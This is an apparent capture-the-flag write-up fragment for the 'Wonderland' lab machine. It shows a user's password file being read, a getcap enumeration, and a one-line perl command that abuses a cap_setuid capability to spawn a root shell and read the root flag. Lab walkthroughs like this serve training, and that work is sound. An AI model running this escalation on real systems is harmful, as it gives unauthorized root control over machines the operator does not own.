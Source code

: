 ```
$ cd /home/hatter
$ ls
password.txt
$ cat password.txt
<redacted>
```

Following more Linux enumeration, we find that there is a capability set on perl that allows us to get root access (gtfobins.gith)

```
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# cat /home/alice/root.txt
<redacted>
```